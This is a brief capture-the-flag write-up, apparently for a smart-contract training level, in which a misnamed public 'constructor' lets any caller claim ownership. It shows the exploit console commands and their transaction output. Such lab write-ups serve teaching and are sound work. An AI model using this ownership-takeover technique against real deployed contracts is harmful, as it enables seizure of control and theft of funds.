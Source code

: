 ## Description

Claim ownership of the contract below to complete this level.

## Solution

The contracts constructor was a public function, when calling it again the msg.sender gains ownership

## Commands

await contract.Fal1out()
await contract.owner()
'0x0000000000000000000000000000000000000000'
{tx: '0xfdbb6d02339953552000d5ba290f0c9a58eb70d4e827dbd5260f62669937140d', receipt: {…}, logs: Array(0)}
await contract.owner()
'0xc717879FBc3EA9F770c0927374ed74A998A3E2Ce'